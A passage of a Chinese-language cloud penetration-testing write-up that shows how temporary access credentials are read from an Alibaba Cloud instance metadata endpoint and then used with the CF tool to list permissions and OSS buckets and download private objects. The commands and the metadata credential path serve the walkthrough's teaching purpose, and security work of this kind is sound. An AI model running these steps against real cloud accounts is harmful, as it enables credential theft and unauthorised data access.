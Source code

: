 <img width="800" src="/img/1657634631.png">

可以看到成功获取到了元数据信息，并且值得注意的是，在元数据信息里还有 `ram/`目录，这就意味着这台实例存在临时访问凭证，也就是说存在被进一步利用的可能性。

我们一步步打开 `ram/`目录，在 http://100.100.100.200/latest/meta-data/ram/security-credentials/laravel-test-role 下找到了临时访问凭证。

<img width="1000" src="/img/1657635047.png">

不同于传统的打点，云环境的打点在我看来，除了传统打点的类型外，拿到云服务的 Access Key 也应该可以被称之为打点，那么在打到点后，接下来就可以开始内网横向了。

## 0x02 云上内网横向，也得细心呀

当我们拿到临时访问凭证后，首先要做的就是得知道这个凭证具备哪些权限。

我们先把凭证配置到 CF 里，CF 下载地址：https://github.com/teamssix/cf/releases

```bash
cf configure
```

<img width="800" src="/img/1657635453.png">

查看当前凭证的权限

```bash
cf ls permissions
```

<img width="800" src="/img/1657640981.png">

可以看到当前权限具有 OSS 的全部权限，并且可以使用 CF 的「列出 OSS 资源」以及「下载 OSS 资源」的功能。

这里先列出 OSS 资源看看

```bash
cf oss ls
```

<img width="1000" src="/img/1657643500.png">

可以看到在该凭证下有四个存储桶，一个是公开的，三个是私有的。

查看一下存储桶里有哪些文件

```bash
cf oss ls -b bucketName
```

<img width="1000" src="/img/1657643569.png">

利用 CF 下载文件，如果想下载全部对象，则不指定 `-k`参数即可。

```bash
cf oss get -b bucketName -k objectKey
```

<img width="1000" src="/img/1657645817.png">
